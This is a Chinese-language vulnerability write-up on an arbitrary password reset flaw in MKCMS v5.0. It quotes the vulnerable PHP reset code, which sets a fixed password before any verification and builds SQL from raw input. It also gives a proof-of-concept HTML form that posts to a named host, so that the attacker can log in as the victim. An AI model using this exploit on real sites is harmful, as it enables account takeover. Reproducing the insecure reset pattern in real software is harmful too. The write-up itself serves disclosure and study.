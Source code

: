 ```yaml
---
title: MKCMS v5.0 任意密码重置漏洞
id: zhfly3023
---
```


# MKCMS v5.0 任意密码重置漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v5.0

## 三、复现过程

漏洞出现在`/ucenter/repass.php`第1-44行:

```
<?php 
include('../system/inc.php');
if(isset($_SESSION['user_name'])){
header('location:index.php');
};

if(isset($_POST[‘submit’])){

$username = stripslashes(trim($_POST[‘name’]));

$email = trim($_POST[‘email’]);

// 检测用户名是否存在

$query = mysql_query(“select u_id from mkcms_user where u_name=’$username’ and u_email=’$email’”);

if(!! $row = mysql_fetch_array($query)){

$_data[‘u_password’] = md5(123456);

$sql = ‘update mkcms_user set ‘.arrtoupdate($_data).’ where u_name="’.$username.’"’;

if (mysql_query($sql)) {

$token =$row[‘u_question’];

include(“emailconfig.php”);

//创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.

$smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true);

$smtp->debug = false;

$mailType = “HTML”; //信件类型，文本:text；网页：HTML

$email = $email;  //收件人邮箱

$emailTitle = “”.$mkcms_name.“用户找回密码”; //邮件主题

$emailBody = “亲爱的”.$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style=‘text-align:right’>-------- “.$mkcms_name.” 敬上</p>";

```
// sendmail方法
// 参数1是收件人邮箱
// 参数2是发件人邮箱
// 参数3是主题（标题）
// 参数4是邮件主题（标题）
// 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
$rs = $smtp-&gt;sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType); 
```

if($rs==true){

echo ‘<script>alert(“请登录到您的邮箱查看您的密码！”);window.history.go(-1);</script>’;

}else{

echo “找回密码失败”;

}

}

}

} `?>` 
```

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![image](../img/d8d434b3a5337128ea31471f40ff69d1.png)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://v.micool.top/ucenter/repass.php" method="POST">
      <input type="hidden" name="u&#95;name" value="lduo123" />
      <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>                         
  </body>
</html> 
```

## 参考链接

> https://xz.aliyun.com/t/4189#toc-1

> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html